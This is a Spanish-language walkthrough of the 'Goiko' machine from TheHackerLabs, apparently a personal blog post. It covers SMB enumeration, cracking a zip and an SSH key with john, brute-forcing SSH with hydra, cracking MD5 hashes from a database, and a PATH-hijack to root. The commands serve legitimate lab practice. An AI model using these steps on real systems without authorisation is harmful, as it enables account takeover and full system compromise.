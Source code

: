 ```yaml
---
layout: post
title: "Goiko"
date: 2024-06-22 11:55:23
category: sample
vm: hackerlabs
---
```


<table class="log">
  <tr>
    <td rowspan="5"><img src="/notas/public/img/thehackerlabs/thehackerlabs.png" width=260></td>
    <td></td>
  </tr>
  <tr> <td><strong>Máquina:</strong> Goiko </td> </tr>
  <tr> <td><strong>SO:</strong> Linux</td> </tr>
  <tr> <td><strong>Dificultad:</strong> <span class="easy">Facil</span></td> </tr>
  <tr> <td><strong><a href="https://thehackerslabs.com/goiko/" target="_blank"> Descarga</a></strong></td> </tr>
</table>

<br>


![img](/notas/public/img/thehackerlabs/Goiko/host.png){:.margin}

**1\.** Escaneando la red para ver los hosts activos.

`sudo arp-scan -I enp2s0 --localnet`

![img](/notas/public/img/thehackerlabs/Goiko/arp.png){:.margin}

**2\.** Escaneo los puertos y servicios del host objetivo.

`sudo nmap -p- --open -T5 --min-rate=5000 -sCV -n -Pn 192.168.1.9`

![img](/notas/public/img/thehackerlabs/Goiko/nmap.png){:.margin}

**3\.** Ya que no tenemos mas, y menos credenciales, listo los archivos compartidos.

`smbclient -L //192.168.1.9/ -N`

![img](/notas/public/img/thehackerlabs/Goiko/smbclientL.png){:.margin}

**4\.** Veo los recursos en cada carpeta, en una de ellas encuentro credenciales.

`smbclient //192.168.1.9/menu -N`

`get \.cafesinleche`

`cat ./\\.cafesinleche || cat ./.cafesinleche`

![img](/notas/public/img/thehackerlabs/Goiko/cafesinleche.png){:.margin}

**5\.** Accedo por ssh pero no encuentro nada, mas que saber los usuarios de la maquina.

`ssh marmai@192.168.1.9`

`cat /etc/passwd | grep bash`

![img](/notas/public/img/thehackerlabs/Goiko/users.png){:.margin}

**6\.** Accedo por ftp, donde encuentro un comprimo y me lo descargo.

`ftp 192.168.1.9 -p 10021`

`dir`

`get BurgerWithoutCheese.zip`

![img](/notas/public/img/thehackerlabs/Goiko/zip.png){:.margin}

**7\.** Necesito una clave para descomprimir, procedo a crackear la contraseña.

`zip2john BurgerWithoutCheese.zip > keyzip`

`john --wordlist=/usr/share/wordlists/rockyou.txt keyzip`

![img](/notas/public/img/thehackerlabs/Goiko/zipkey.png){:.margin}

**8\.** Descomprimo y me da una lista de usuarios y una idrsa cifrada.

`unzip BurgerWithoutCheese.zip`

`cat users`

`cat id_rsa`

![img](/notas/public/img/thehackerlabs/Goiko/zipfiles.png){:.margin}

**9\.** Crackeando la contraseña del id_rsa.

`ssh2john id_rsa > key`

`john --wordlist=/usr/share/wordlists/rockyou.txt key`

![img](/notas/public/img/thehackerlabs/Goiko/idrsakey.png){:.margin}

**10\.** Haciendo fuerza bruta al ssh.

`hydra -L users -p "babygirl" ssh://192.168.1.9`

![img](/notas/public/img/thehackerlabs/Goiko/hydra.png){:.margin}

**11\.** Accedo por ssh como gurpreet y encuentro una nota.

`ssh gurpreet@192.168.1.9`

`cat nota`

![img](/notas/public/img/thehackerlabs/Goiko/sshgurpreet.png){:.margin}
![img](/notas/public/img/thehackerlabs/Goiko/gurpreetfiles.png){:.margin}

**12\.** Accedo a la base de datos, encuentro credenciales.

`mariadb -u gurpreet -p`

`show databases;`

`use secta;`

`show tables;`

`select * from integrantes;`

![img](/notas/public/img/thehackerlabs/Goiko/mariadb.png){:.margin}

**13\.** Crackeando los hashes en md5.

`nano hashes`

`john --wordlist=/usr/share/wordlists/rockyou.txt hashes --format=RAW-MD5`

![img](/notas/public/img/thehackerlabs/Goiko/johnhashes.png){:.margin}

**14\.** Migro al usuario nika, veo que puedo ejecutar un script bash como root.

`su nika`

`sudo -l`

![img](/notas/public/img/thehackerlabs/Goiko/sudol.png){:.margin}

**15\.** Escalando privilegios a superusuario.

_15.1- Veo que el script ejecuta el comando find pero sin especificar su ruta_

`cat /opt/porno/watchporn.sh`

![img](/notas/public/img/thehackerlabs/Goiko/watchporn.png){:.margin}

_15.2- Voy a mi directorio de usuario y creo un find alternativo que ejecute una bash_

`cd`

`echo "/bin/bash" > find`

`chmod 777 find`

![img](/notas/public/img/thehackerlabs/Goiko/find.png){:.margin}
_15.3- Por ultimo ejecuto el script indicando nuestro PATH temporalmente, y obtenemos el usuario root_

`sudo PATH=/home/nika:$PATH /opt/porno/watchporno.sh`

![img](/notas/public/img/thehackerlabs/Goiko/root.png){:.margin}

<br>

<a href="#">_Finalizado._</a>